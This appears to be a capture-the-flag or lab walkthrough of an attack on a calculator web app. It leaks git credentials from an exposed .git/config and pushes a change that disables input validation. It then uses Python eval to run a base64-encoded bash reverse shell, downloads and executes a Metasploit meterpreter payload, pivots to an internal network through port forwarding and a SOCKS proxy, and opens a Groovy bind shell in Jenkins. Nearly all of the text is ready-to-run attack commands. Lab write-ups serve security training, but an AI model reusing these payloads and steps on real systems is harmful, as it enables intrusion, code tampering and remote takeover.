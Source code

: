 # BLACK BOX TESTING 2

## GIVEN   
**MY IP ADDRESS**: 192.32.59.2

## PROCEDURE

### RECON

**OPEN PORTS**:<br>
80 http (Apache 2.4.29 Web Server),<br>
5000 http,<br>
8000 http (Python 2.7.17 Web Server)<br>

Port 80 is the default apache page<br>
Port 5000 is a calc webapp<br>
Port 8000 is hosting a git repo<br>

**FILE OF INTEREST**: http://online-calc.com:8000/.git/config

### GIT CREDENTIALS

```
curl http://online-calc.com:8000/.git/config
```

name = Jeremy McCarthy<br>
email = jeremy@dummycorp.com<br>
**password** = diamonds<br>
**username** = jeremy<br>

**GIT UR**L: http://online-calc.com/projects/online-calc

### DISABLE INPUT VALIDATION
```
git clone http://online-calc.com/projects/online-calc
```

Comment out code in API.py:
```
# if not isValid(expr):
#	return error("Invalid expression!")
```

Push changes to git repo
```
git add -A
git commit -m "updated"
git push origin
```

Check if webapp is updated
```
curl http://online-calc.com:8000/API.py
```

### RCE REVERSE SHELL

Calc input is run through python eval function

Reverse shell bash script
```
bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'
```

Reverse shell embedded in python code
```
__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'")
```

Encode reverse shell
```
echo "bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'" | base64
```

**ENCODED SCRIPT**:YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg==

Final python script
```
__import__('os').system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg== | base64 -d | bash")
```

### GETTING FLAG 1
```
find / -iname *flag* 2>/dev/null
```

/tmp/flag

**FLAG**: 3b2b474c06380f696b38c1498f795e054374

```
ip addr
```
Host connected to another network that we can pivot to:<br>
eth0: 192.32.59.3/24 (Current Network)<br>
**eth1**:192.244.194.2/24 (Unreachable Network)

### METERPRETER

Create payload & start server
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.32.59.2 LPORT=4444 -f elf > PAYLOAD
python3 -m http.server 80

Download payload on target machine
```
curl http://192.32.59.2/PAYLOAD > PAYLOAD
```

Set up payload handler in metasploit
```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.32.59.2
set lport 4444
exploit

Execute payload
```
chmod +x PAYLOAD
./PAYLOAD
```

### PIVOT

Run port scan on other network
```
run autoroute -s 192.244.194.0/24
background
use auxiliary/scanner/portscan/tcp 
set rhosts 192.244.194.0/24
run
```

**IP (OPEN PORT)**: 192.244.19.3 (8080)

Configure port forwarding and run nmap
```
sessions -i 1
portfwd add -l 5555 -p 8080 -r 192.244.194.3
background
nmap -sV -sC -p5555 localhost
```

SERVICE: http (Jetty 9.4.27)

Start proxy server to access website
```
use auxiliary/server/socks_proxy
set srvport 9050 #Default port for proxychains
set version 4a
run
proxychains nmap -sT -P0 192.244.194.3 #Proxies don't support ping so have to use -P0
```

Configure proxy for browser:<br>
- Manual proxy config
- SOCKS Host: 127.0.0.1
- Port: 9050
- Socks v4

Website running Jenkins (automation server)

### GETTING SHELL ACCESS

Execute groovy bind script in the Script Console:
```
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Connect to the server
```
nc -v 192.244.194.3 6666
```